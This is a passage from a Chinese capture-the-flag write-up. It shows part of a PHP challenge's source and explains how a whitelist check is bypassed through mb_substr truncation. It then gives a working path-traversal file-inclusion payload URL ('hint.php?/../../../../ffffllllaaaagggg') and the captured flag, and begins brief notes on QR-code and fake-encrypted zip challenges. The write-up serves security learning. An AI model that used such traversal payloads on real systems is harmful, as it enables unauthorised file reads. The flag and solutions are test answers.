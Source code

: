``` php
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

* 代码审计可以看出, 定义了白名单：

``` 
 $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
```

* 利用截取漏洞

  ``` php
  $_page = mb_substr(
                  $_page,
                  0,
                  mb_strpos($_page . '?', '?')
              );
  ```

* 构造payload,得到flag

  ``` 
  http://210.29.65.91:32772/index.php?file=hint.php?/../../../../ffffllllaaaagggg
  ```

   ntuctf{76e113554cfc4a571a1f2d745b8f33ebb2146b6f} 

### MSIC

#### 1.签到题

> 附件： https://www.lanzous.com/i6vf04b 

* 一张二维码，扫一下就可以得到flag

####  2.没有密码哦

> 附件： https://www.lanzous.com/i6ve43i 

* 一个压缩包，解压需要密码，有根据题目提示，想到伪密码，拖到kali 里面直接提取

